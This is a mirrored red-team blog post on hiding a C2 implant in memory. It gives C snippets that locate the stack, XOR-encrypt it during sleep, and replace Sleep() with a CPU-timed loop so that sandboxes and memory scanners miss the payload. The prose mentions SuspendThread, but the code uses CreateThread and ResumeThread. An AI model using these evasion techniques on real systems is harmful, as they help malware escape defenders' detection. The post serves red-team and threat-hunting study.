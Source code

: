 ```yaml
---
title: Masking the Implant with Stack Encryption
updated: 2023-05-02 12:32
---
```


Mirrored from [WKL Security](https://whiteknightlabs.com/2023/05/02/masking-the-implant-with-stack-encryption/)

## Introduction

This article is a demonstration of memory-based detection and evasion techniques. Whenever you build a Command & Control or you perform threat hunting, there will be scenarios when you might need to analyze the memory artifacts of a specific system—something that is really useful during your live forensics or when you’re going to perform an incident response on a host by segregating that host from the network. In such scenarios, it would be required to identify the payload that is currently running in memory. We will be taking a look at some of the examples of how that payload investigation can be performed, and how that investigation can be bypassed as well.

A lot of times during an engagement, an engineer might execute a payload: either Cobalt Strike, Havoc or any other open source C2s that are currently there. There are specific scenarios where the red teamer might want to execute a command on the endpoint, which gathers a lot of strings and sends that to your C2 host. These strings can be username, hostname, or even information related to your command and control server itself and the information might also be encrypted during transit. However, when the payload sleeps on the endpoint, and the red teamer adds sleep and jitter to the beacon, these commands need to be stored in an encrypted way. In this current scenario, this information can be either stored into a heap or on stack.

Regarding heap memory, usually we don’t have to worry about it because you can eventually walk a heap, extract information, and encrypt when you are sleeping. However, things change a bit when we talk about stack encryption.

## The problem with loaders

In a traditional shellcode loader, the shellcode is stored in stack memory since it is stored in a variable inside or outside of a function. When the shellcode is written with `WriteProcessMemory` to a local/remote process, not only is the shellcode stored in that particular memory but also it remains stored in the stack, where the variable lives.

![shellcode_living_in_stack](https://whiteknightlabs.com/wp-content/uploads/2023/04/Pasted-image-20230429021705-1024x342.png)

## Finding the stack

To quickly identify where the stack is located, we need to retrieve the RSP address. This register will contain the address of the top of the stack.

```c
unsigned char *rsp;
asm("movq %%rsp, %0;" : "=r" (rsp));
```

While the top of the stack is easily identifiable, the bottom is much harder as the stack dynamically increases and/or decreases in size based on the variables that are stored and freed as the code is executed. Luckily `VirtualQuery` makes it so easy for us to retrieve information about the range of pages in the virtual address space of the calling process. So using the RSP address that we found previously allows us to determine the top and the bottom of the stack:

```c
// Get the address range of the stack
MEMORY_BASIC_INFORMATION mbi;
VirtualQuery(rsp, &mbi, sizeof(mbi));

unsigned char *stackRegion = mbi.BaseAddress - 8192;
unsigned char *stackBase = stackRegion + mbi.RegionSize + 8192;
```

## Suspending the thread to avoid abnormal behavior

It is required to suspend the process before encrypting or decrypting the stack. This is because modifying the stack while the process is still running can cause unpredictable behavior and potential crashes.

To suspend the process, we can use the SuspendThread function from the Windows API, which suspends the execution of a thread until it is resumed with the ResumeThread function.

```c
hThread = CreateThread(NULL, 0, EncryptThread, rsp, 0, NULL);
ResumeThread(hThread);

DWORD WINAPI EncryptThread(LPVOID lpParameter) {
    //...mask the stack
}
```

## Encrypting what we need to hide

Encrypting from the beginning of the page to the bottom of the stack might look suspicious and is not the most OPSEC-safe approach. Instead, we will encrypt where the stack actually begins (RSP address) and the bottom of the stack (minus 8 bytes).

```c
int stackSize = stackBase - rsp - 8; //the part that will be encrypted
```

Below is the image of the range that should be encrypted, starting from RSP address (where the plaintext strings and the shellcode is stored) until the end of the stack:

![stack_region_between_rsp_and_base](https://whiteknightlabs.com/wp-content/uploads/2023/04/Pasted-image-20230429023047.png)

The encryption routine is pretty simple; XOR byte per byte until you reach the end of the stack:

```c
//mask everything between the addresses of RSP and bottom of the stack
unsigned char *p = (unsigned char *)rsp;
int n = 0;
for (int i = 0; i < stackSize; i++) {
    *(p++) ^= 0x55;
}
```

If we analyze the stack of the loader, we can clearly see what the stack will look like after the encryption:

![stack_encrypted_and_decrypted](https://whiteknightlabs.com/wp-content/uploads/2023/05/Screenshot-from-2023-05-01-16-02-29.png)

## There’s no sleepmask without sleeping

Some modern detection solutions possess countermeasures against a basic `Sleep()`. For example, hooking sleep functions like `Sleep` in C/C++ or `Thread.Sleep` in C# to nullify the sleep, but also fast forwarding.

There is already a nice technique that leverages CPU cycles to perform a custom sleep. I am not going to further describe how it works as it is already well-explained here in this [article](https://shubakki.github.io/posts/2022/12/detecting-and-evading-sandboxing-through-time-based-evasion/).

```c
unsigned long long __get_timestamp() {
	const size_t UNIX_TIME_START = 0x019DB1DED53E8000; // Start of Unix epoch in ticks.
	const size_t TICKS_PER_MILLISECOND = 10000; // A tick is 100ns.
	LARGE_INTEGER time;
	time.LowPart = *(DWORD*)(0x7FFE0000 + 0x14); // Read LowPart as unsigned long.
	time.HighPart = *(long*)(0x7FFE0000 + 0x1c); // Read High1Part as long.
	return (unsigned long long)((time.QuadPart - UNIX_TIME_START) / TICKS_PER_MILLISECOND);
}

void __alt_sleepms(size_t ms)
{
	volatile size_t x = rand(); // random buffer var 
	const unsigned long long end = __get_timestamp() + ms; // calculate when we shall stop sleeping
	while (__get_timestamp() < end) { x += 1; } // increment random var by 1 till we reach our endtime
	if (__get_timestamp() - end > 2000) return; // Fast Forward check, might need some tuning	
}

__alt_sleepms(5*1000); //sleep for 5 seconds
```

## Wrapping everything up

In conclusion, understanding memory-based detection and evasion techniques is crucial for effective threat hunting and incident response. Investigating the payloads that are running in memory can provide critical information about a system’s state, but it can also be bypassed through stack encryption techniques.

The code for this PoC can be found in this GitHub [repo](https://github.com/WKL-Sec/StackMask).

## Credits

[https://shubakki.github.io/posts/2022/12/detecting-and-evading-sandboxing-through-time-based-evasion/](https://shubakki.github.io/posts/2022/12/detecting-and-evading-sandboxing-through-time-based-evasion/)
